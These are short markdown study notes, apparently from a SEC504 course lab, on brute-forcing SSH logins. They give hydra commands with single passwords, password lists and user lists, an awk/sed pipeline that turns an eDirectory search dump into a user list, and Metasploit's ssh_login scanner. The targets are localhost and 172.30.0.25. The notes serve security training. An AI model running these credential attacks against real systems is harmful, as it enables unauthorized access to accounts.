 # Password Guessing Notes

this will be done with hydra

```
hydra -t 4 -l root -p sec504 ssh://127.0.0.1
hydra -t 4 -l sec504 -p sec504 ssh://127.0.0.1
```

WITH PASSWORD LIST

```
hydra -t 4 -l sec504 -P passwords.txt ssh://127.0.0.1
```

WITH USERS LIST

```
hydra -t 4 -L users.txt -p sec504 ssh://127.0.0.1
```

eDirectory server, after copying a big list of users and information

```
awk '{print $3}' searchresult.txt
awk '{print $3}' searchresult.txt | sed 's/@.*//' > eusers.txt
hydra -t 4 -L eusers.txt -P passwords.txt ssh://172.30.0.25
```

with metasploit

```
msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 127.0.0.1
set username root
set password sec504
set gatherproof false
run
unset password
set PASS_FILE /home/sec504/labs/passhydra/passwords.txtPASS_FILE => /home/sec504/labs/passhydra/passwords.txt
run
```
